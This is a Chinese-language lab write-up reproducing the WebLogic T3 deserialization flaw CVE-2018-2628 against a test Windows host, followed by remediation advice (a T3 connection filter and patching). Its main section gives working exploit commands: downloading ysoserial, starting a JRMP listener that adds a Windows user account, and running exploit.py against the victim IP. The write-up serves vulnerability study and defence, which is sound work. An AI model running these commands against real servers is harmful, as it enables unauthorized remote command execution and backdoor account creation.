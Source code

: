 ## Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
Weblogic Server WLS Core Components反序列化命令执行漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本进行复现,具体使用方法见脚本。

Kail  Attack ：192.168.31.232
Win03 victim : 192.168.124.130

Kail 执行
1）下载ysoserial.jar
`wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar`

2）使用ysoserial.jar，启动JRMP Server
`java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]`
其中，[command]是想执行的命令，而[listen port]是JRMP Server监听的端口。、
这里我执行`java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'net user xiaohao xiaohao /add'`

3）执行exploit.py
`python2 exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]`
其中，[victim ip]和[victim port]是目标weblogic的IP和端口，[path to ysoserial]是本地（Kail系统上的）ysoserial的路径，[JRMPListener ip]和[JRMPListener port]第一步中启动JRMP Server的IP地址和端口。[JRMPClient]是执行JRMPClient的类，可选的值是JRMPClient或JRMPClient2
这里我执行`python2 exploit.py 192.168.124.130 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.31.232 1099 JRMPClient2`

结果如下：
![CVE-2018-2628-01](./pic/CVE-2018-2628-01.png)


### 修复建议
1.过滤t3协议。
在域结构中点击 安全->筛选器
连接筛选器填: weblogic.security.net.ConnectionFilterImpl 保存后重启Weblogic.
![CVE-2018-2628-02](./pic/CVE-2018-2628-02.png)

kail再次攻击，Exp将报错。
![CVE-2018-2628-03](./pic/CVE-2018-2628-03.png)

连接筛选器规则可参考[官方文档](https://docs.oracle.com/cd/E12839_01/web.1111/e13711/con_filtr.htm#SCPRG386)

2.安装补丁，但是保不准下一次Weblogic缝缝补补的黑名单又被绕过。